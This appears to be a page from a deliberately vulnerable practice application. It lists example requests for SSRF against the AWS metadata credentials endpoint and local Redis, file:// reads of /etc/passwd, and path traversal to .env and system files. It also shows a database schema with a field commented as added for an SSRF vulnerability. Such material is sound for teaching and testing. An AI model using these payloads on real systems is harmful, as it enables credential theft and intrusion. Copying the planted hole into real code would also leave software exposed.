 **Advanced Exploitation Vectors:**

1. **Cloud Metadata Exploitation:**
   ```bash
   # AWS metadata service
   POST /api/tasks/import
   {
     "importUrl": "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
     "format": "json"
   }
   ```

2. **Internal Network Scanning:**
   ```bash
   # Scan internal services
   POST /api/users/avatar
   {
     "imageUrl": "http://localhost:6379/info",
     "fetchFromUrl": true
   }
   ```

3. **Local File Inclusion:**
   ```bash
   # Read sensitive system files
   POST /api/users/avatar
   {
     "imageUrl": "file:///etc/passwd",
     "fetchFromUrl": true
   }
   
   # Read application configuration
   GET /api/files/../../../.env
   ```

4. **Path Traversal:**
   ```bash
   # Access files outside upload directory
   GET /api/files/../../../../etc/hosts
   GET /api/files/../../../package.json
   ```

**Database Schema Update:**
```prisma
model User {
  id            Int       @id @default(autoincrement())
  email         String    @unique
  passwordHash  String    @map("password_hash")
  firstName     String    @map("first_name")
  lastName      String    @map("last_name")
  avatarUrl     String?   @map("avatar_url")  // New field for SSRF vulnerability
  createdAt     DateTime  @default(now()) @map("created_at")
  updatedAt     DateTime  @updatedAt @map("updated_at")
  emailVerified Boolean   @default(false) @map("email_verified")
  
  tasks         Task[]
  comments      Comment[]
  
  @@map("users")
}
```
